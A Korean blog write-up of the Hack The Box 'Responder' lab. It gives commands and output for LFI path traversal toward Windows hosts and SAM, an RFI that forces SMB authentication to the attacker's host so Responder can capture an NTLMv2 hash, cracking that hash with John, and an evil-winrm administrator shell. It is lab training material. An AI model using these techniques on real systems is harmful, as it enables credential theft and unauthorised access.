


대상 서버 nmap 스캔 결과는 아래와 같다. (동일한 인자를 줬지만 kali에선 되고 mac에선 되지 않았다...왜그럴까..)
``` bash
# nmap 10.129.2.235 -sC -sV -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-05 14:03 UTC
Nmap scan report for 10.129.2.235
Host is up (0.51s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 197.03 seconds
```

80 port로 접근가 열려있는 것을 확인할 수 있으며, 접근 시 아래와 같이 .htb 사이트로 이동된다.

``` bash
# curl 10.129.73.133
<meta http-equiv="refresh" content="0;url=http://unika.htb/">#
```

하지만 이동 된 후 아무 페이지를 찾을 수 없다는 내용만 존재하여, 다양한 시도를 해보았으나 문제를 풀 수가 없었다.


알고 보니 해당 증상은 문제가 있는 것으로 아래와 같이 hosts 파일을 수정해주어야 정상적으로 사이트에 접근된다.
``` bash 
sudo vi /etc/hosts

# 아래 IP는 각자 발급 받은 Machine의 IP 입력 필요
10.129.73.133    unika.htb
```

수정 후 사이트에 접근하면 정상적으로 접근되는 것을 확인 할 수 있다.


문제를 풀던 중 아래 문제의 답이 도저히 나오지 않아 결국 타 공략을 보았다. NT Lan Manager가 많이 나와 왜 글자 수가 다르지? 생각했지만, NT도 줄임말이여서 그런 것이였다...괜히 패배한 기분이다.


해당 사이트의 국가별 언어를 변경하면 아래 그림과 같이 page 파라미터에 인자를 받아온 것을 알 수 있다. 


파일 명을 지정하고 있으므로 LFI와 RFI를 테스트해보았다. 지정한 경로는 문제에서 예시로 들어준 경로이다.
``` bash
 read-min 🎉   ~  curl http://unika.htb/index.php\?page\=../../../../../../../../windows/system32/drivers/etc/hosts

# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#	127.0.0.1       localhost
#	::1             localhost
```
주요 파일에 대해서도 접근이 되는지 테스트 해보았으나, "Permission denied"가 반환되는 것을 알 수 있다.
``` bash
 ⚡ read-min 🔑   ~  curl http://unika.htb/index.php\?page\=../../../../../../../../../../../../Windows/System32/config/SAM
<br />
<b>Warning</b>:  include(../../../../../../../../../../../../Windows/System32/config/SAM): Failed to open stream: Permission denied in <b>C:\xampp\htdocs\index.php</b> on line <b>11</b><br />
<br />
<b>Warning</b>:  include(): Failed opening '../../../../../../../../../../../../Windows/System32/config/SAM' for inclusion (include_path='\xampp\php\PEAR') in <b>C:\xampp\htdocs\index.php</b> on line <b>11</b><br />
```
<br/>

아래는 RFI를 테스트한 결과이다. 아래의 결과처럼 존재하지 않는 파일에 대해선 "No such file"가 반환된다.
``` bash
 ⚡ read-min 🔑   ~  curl http://unika.htb/index.php\?page\=//10.10.14.6/somefile
<br />
<b>Warning</b>:  include(\\10.10.14.6\SOMEFILE): Failed to open stream: No such file or directory in <b>C:\xampp\htdocs\index.php</b> on line <b>11</b><br />
<br />
<b>Warning</b>:  include(): Failed opening '//10.10.14.6/somefile' for inclusion (include_path='\xampp\php\PEAR') in <b>C:\xampp\htdocs\index.php</b> on line <b>11</b><br />
```

테스트 환경이 MacOS다보니, 큰 난항을 겪었다. 다양한 테스트를 하다가 responder라는 툴을 사용해야한다는 것을 알게 되어, MacOS에서 Kali Docker Image를 통해 해보려했으나, VPN 설정 등의 문제로 계속 실패했다. 결국 Kali Linux 이미지로 vm 환경 구성 후 해결하였다.


대상 서버에서 RFI가 되고 있으므로, 아래와 같이 responder를 사용할 수 있다. responder는 로컬 네트워크에서 인증 정보(Credentials) Hash를 획득하기 위해 사용하는 도구이다. 실행 시 인터페이스 지정이 필요한데, 문제를 풀기 위해선 responder를 실행할 환경에서 openvpn으로 htb 연결 후, 해당 인터페이스를 지정해야한다. 아래의 경우 'tun0'가 openvpn을 연결했을때의 인터페이스이므로 지정했다.

``` bash
┌──(root㉿kali)-[/home/user]
└─# responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

...

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.15.52]
    Responder IPv6             [dead:beef:2::1132]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-B9AFQUY0GZQ]
    Responder Domain Name      [C7CK.LOCAL]
    Responder DCE-RPC Port     [48210]

[+] Listening for events...
```

responder 실행 후 `Responder IP [10.10.15.52]`인 것을 알 수 있으며, 대상 서버에서 접근 시 아래와 같이 출력되는 것을 볼 수 있다. 



실패했다고 나오지만 responder를 실행한 콘솔에서는 아래와 같이 hash 값을 획득 할 수 있다.

``` bash
[SMB] NTLMv2-SSP Client   : 10.129.247.175
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:368█████16576129:9CF51B█████003FB9FE█████33CC83CC:01█████00000000000E9A590145EDA011E0554C0DF8566AE00000000020008004300370043004B0001001E00570049004E002D004200390041004600510055005900█████7005A00510004003400570049004E002D0█████390041004600510055005900300047005A0051002E004300370043004B█████04C004F00430041004C00030014004█████0043004B002E004C004F00430041004C00050014004300370043004B002E004C004F004300410█████0700080000E9A590145EDA01060004█████00000080030003000000000000000010000000020000045D2FE32AD51D3█████B822C1D368273015B1E5DD4171CC96AFCF06DA789F1AA0█████000000000000000000000000000000000009002000█████900660073002F00310030002E00310030002E00310035002E00350032000000000000000000
``` 

수집된 정보는 `/usr/share/responder/logs` 경로에 `SMB-NTLMv2-SSP-10.129.247.175.txt`와 같은 형태로 저장된다. 해당 파일을 갖고 John the Riper를 통해 패스워드에 대한 크랙을 할 수 있다.

``` bash
┌──(root㉿kali)-[/home/user]
└─# johnjohn --format=netntlmv2 /usr/share/responder/logs/SMB-NTLMv2-SSP-10.129.247.175.txt
Using default input encoding: UTF-8
Loaded 4 password hashes with 3 different salts (1.3x same-salt boost) (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
0g 0:00:04:15  3/3 0g/s 804383p/s 2413Kc/s 3217KC/s gmcn91..gmbgbc
0g 0:00:04:29  3/3 0g/s 803137p/s 2409Kc/s 3212KC/s 1582mg1..158p1mo
0g 0:00:11:25  3/3 0g/s 814773p/s 2444Kc/s 3259KC/s wrmt3s..wrdouz
0g 0:00:24:48  3/3 0g/s 821610p/s 2464Kc/s 3286KC/s pyeph86..pyep11k
████████n        (Administrator)
4g 0:00:33:47 DONE 3/3 (2024-02-13 02:25) 0.001972g/s 818862p/s 2457Kc/s 3276KC/s badgoom10..badmikuth
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

이제 Administrator 계정과 패스워드를 알고 있으므로 원격 쉘을 붙일 수 있는지 테스트해보자. WinRM 서비스에 대한 공격을 진행할 것이다. 대상 기본 포트는 5985이다. 기본 scan에서는 보이지 않아 port를 지정하여 스캔하였다.
``` python
┌──(root㉿kali)-[/home/user]
└─# nmap -sC -sV 10.129.16.102
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-13 02:44 EST
Nmap scan report for 10.129.16.102
Host is up (0.26s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1


┌──(root㉿kali)-[/home/user]
└─# nmap 10.129.16.102 -p 5985
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-13 02:50 EST
Nmap scan report for 10.129.16.102
Host is up (0.31s latency).

PORT     STATE SERVICE
5985/tcp open  wsman
```

wsman은 ws-management를 뜻하며, winrm 서비스가 정상 동작하고 있음을 뜻한다. 이제 evil-winrm을 통해 쉘을 획득해보자.
``` bash
┌──(root㉿kali)-[/home/user]
└─# evil-winrm -i 10.129.247.175 -u Administrator -p ████████

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
responder\administrator
```

쉘 획득 후 대상 서버의 파일을 조사하다보면 flag.txt가 있음을 확인 할 수 있다.
``` bash
*Evil-WinRM* PS C:\Users\mike> cd Desktop
*Evil-WinRM* PS C:\Users\mike\Desktop> dir


    Directory: C:\Users\mike\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/10/2022   4:50 AM             32 flag.txt


*Evil-WinRM* PS C:\Users\mike\Desktop> type flag.txt
ea8█████ddd03e█████45333█████fac
```

드디어 해당 문제를 풀었다. hosts 파일 수정, openvpn 문제, winRM에 대한 개념 부재 등으로 이번 문제는 푸는데 시간이 꽤 걸렸다.


